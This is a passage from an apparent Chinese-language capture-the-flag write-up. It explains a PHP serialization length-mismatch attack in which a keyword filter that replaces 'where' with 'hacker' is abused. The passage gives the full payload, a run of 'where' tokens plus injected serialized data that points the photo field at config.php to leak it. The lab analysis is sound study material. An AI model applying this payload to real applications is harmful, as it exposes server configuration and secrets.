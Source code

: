 令nickname的值为`"";}s:5:"photo";s:10:"config.php";} `得到

`O:7:"profile":4:{s:5:"phone";s:11:"11111111111";s:5:"email";s:8:"1@qq.com";s:8:"nickname";a:1:{i:0;s:34:"";}s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:10:"config.php";}`

nickname后面的数字应该为0，但是为33，这使得构造的序列化不能成功。

继续跟进存放序列化字串的过程。在update.php中调用了这个函数存放

```php
$user->update_profile($username, serialize($profile));
```

跟进

```php
public function update_profile($username, $new_profile) {
		$username = parent::filter($username);
		$new_profile = parent::filter($new_profile);

		$where = "username = '$username'";
		return parent::update($this->table, 'profile', $new_profile, $where);
	}
```

发现进行了过滤，查看过滤

```php
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}
```

发现了华点！filter的机制是把字符串替换成hacker，如果是序列化字串中的where替换成了hacker，会使得预期的读取字串变少。也就是说我们只要用34个连续的where，经过替换后变成了hacker，那么nickname的读取字符结束，它只读了34个hacker。接下来就可以如期读取我们构造的payload了。

因此nickname应该这样构造

```php
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

至此，大功告成。抓包修改即可。

![](https://ww1.yunjiexi.club/2020/02/04/1rfmX.png)

![](https://ww1.yunjiexi.club/2020/02/04/1rCtz.md.png)

![](https://ww1.yunjiexi.club/2020/02/04/1reHV.png)
